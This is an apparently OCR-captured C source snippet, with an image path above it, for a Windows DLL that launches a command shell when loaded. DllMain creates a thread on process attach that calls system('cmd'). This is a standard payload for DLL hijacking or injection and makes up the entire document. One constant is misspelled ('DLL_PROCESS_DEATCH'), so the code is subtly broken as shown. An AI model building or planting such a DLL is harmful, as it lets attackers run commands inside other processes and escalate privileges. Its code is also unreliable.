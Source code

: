 #include<stdlib.h>
#include<stdio.h>
​
void Entry (){ //Default function that is executed when the DLL is loaded
    system("cmd");
}
​
BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call){
        case DLL_PROCESS_ATTACH:
            CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DEATCH:
            break;
    }
    return TRUE;
}
